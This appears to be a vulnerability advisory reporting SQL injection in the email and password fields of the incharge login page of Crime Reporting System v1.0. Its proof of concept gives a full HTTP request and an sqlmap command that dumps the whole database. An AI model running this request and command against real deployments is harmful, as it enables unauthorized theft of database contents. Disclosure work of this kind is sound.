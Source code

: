 # Crime Reporting System - SQL Injection (Incharge Login)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Crime Reporting System](https://code-projects.org/crime-reporting-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Crime-Reporting-System/inchargelogin.php

> Two parameters `email` and `password` within incharge login are vulnerable to SQL Injection.


![email](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.1crs-inchargelogin-email-sqli.png)

![password]()

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `inchargelogin.txt`:

```
POST /Crime-Reporting-System/inchargelogin.php HTTP/1.1
Host: 172.16.8.56
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.8.56
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.8.56/Crime-Reporting-System/inchargelogin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

email=shah@anandapur&password=123&s=
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r inchargelogin.txt --level 5 --risk 3 --batch --dbms MYSQL --dump
```


## Recommendations

When using this Crime Reporting System, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
